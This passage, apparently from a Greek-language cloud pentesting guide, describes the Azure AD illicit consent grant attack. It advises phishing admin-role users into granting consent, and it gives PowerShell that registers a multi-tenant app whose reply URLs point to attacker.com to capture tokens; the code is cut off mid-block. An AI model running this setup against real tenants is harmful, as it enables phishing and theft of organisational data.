 <figure><img src="../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

`User.ReadBasic.All` είναι μέσα στο `Microsoft Graph` στις `Delegated permissions`. (Οι άδειες εφαρμογής θα χρειαστούν πάντα επιπλέον έγκριση).

* `User.ReadBasic.All` είναι η άδεια που θα σας επιτρέψει να **διαβάσετε πληροφορίες όλων των χρηστών** στην οργάνωση αν παραχωρηθεί.
* Θυμηθείτε ότι μόνο οι `GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` και ένας προσαρμοσμένος ρόλος που περιλαμβάνει `άδεια να παραχωρεί άδειες σε εφαρμογές` μπορούν να παρέχουν συγκατάθεση σε επίπεδο tenant. Έτσι, θα πρέπει να **phish έναν χρήστη με έναν από αυτούς τους ρόλους** αν θέλετε να εγκρίνει μια **εφαρμογή που απαιτεί έγκριση διαχειριστή**.

Μπορείτε επίσης να δημιουργήσετε μια εφαρμογή μέσω cli με: 

{% code overflow="wrap" %}
```bash
# Generate Application
New-AzureADApplication -DisplayName "MyApp"  -ReplyUrls @("https://attacker.com", "https://attacker.com/gettoken") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true

# Generate Secret
New-AzureADApplicationPasswordCredential -ObjectId f76ebd35-xxxx-xxxx-xxxx-xxxxxxxxxxxx -CustomKeyIdentifier "MyAppSecret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

# Generate an application with the permissions
$objectid=New-AzureADApplication -DisplayName "AppName"  -ReplyUrls @("https://example.com/login/authorized") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true | select-object ObjectId
New-AzureADApplicationPasswordCredential -ObjectId $objectid.ObjectId -CustomKeyIdentifier "secret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

$AppObjectID = $objectid.ObjectId # object id in AD
$app = Get-AzureADApplication -ObjectId $AppObjectID
$AADAccess = $app.RequiredResourceAccess | Where-Object {$_.ResourceAppId -eq "00000003-0000-0000-c000-000000000000"}  # "00000003-0000-0000-c000-000000000000" represents Graph API
if($AADAccess -eq $null) {
$AADAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
$AADAccess.ResourceAppId = "00000003-0000-0000-c000-000000000000"

$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)

$app.RequiredResourceAccess.Add($AADAccess)
} else {
$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
```